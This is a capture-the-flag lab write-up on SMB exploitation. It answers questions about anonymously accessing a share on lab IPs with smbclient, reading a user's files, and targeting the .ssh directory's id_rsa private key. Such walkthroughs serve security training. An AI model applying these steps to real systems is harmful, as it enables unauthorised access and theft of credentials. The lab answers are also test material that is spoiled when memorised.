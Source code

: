 ### Task 4 - Exploiting SMB
1. What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?<br>
    **Answer:** smbclient //10.10.10.2/secret -U suit -p 445

1. Does the share allow anonymous access? Y/N?<br>
    ```
    $ smbclient //10.10.201.35/profiles -U anonymous -p 445
    Password for [WORKGROUP\anonymous]:
    Try "help" to get a list of possible commands.
    smb: \> ls
    .                                   D        0  Tue Apr 21 11:08:23 2020
    ..                                  D        0  Tue Apr 21 10:49:56 2020
    .cache                             DH        0  Tue Apr 21 11:08:23 2020
    .profile                            H      807  Tue Apr 21 11:08:23 2020
    .sudo_as_admin_successful           H        0  Tue Apr 21 11:08:23 2020
    .bash_logout                        H      220  Tue Apr 21 11:08:23 2020
    .viminfo                            H      947  Tue Apr 21 11:08:23 2020
    Working From Home Information.txt      N      358  Tue Apr 21 11:08:23 2020
    .ssh                               DH        0  Tue Apr 21 11:08:23 2020
    .bashrc                             H     3771  Tue Apr 21 11:08:23 2020
    .gnupg                             DH        0  Tue Apr 21 11:08:23 2020

                    12316808 blocks of size 1024. 7584028 blocks available
    ```
    **Answer:** Y

1. Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?<br>
    ```
    $ cat "Working From Home Information.txt" 
    John Cactus,

    As you're well aware, due to the current pandemic most of POLO inc. has insisted that, wherever 
    possible, employees should work from home. As such- your account has now been enabled with ssh
    access to the main server.

    If there are any problems, please contact the IT department at it@polointernalcoms.uk

    Regards,

    James
    Department Manager
    ```
    **Answer:** John Cactus

1. What service has been configured to allow him to work from home?<br>
    **Answer:** SSH

1. Okay! Now we know this, what directory on the share should we look in?<br>
    **Answer:** .ssh

1. This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?<br>
    **Answer:** id_rsa
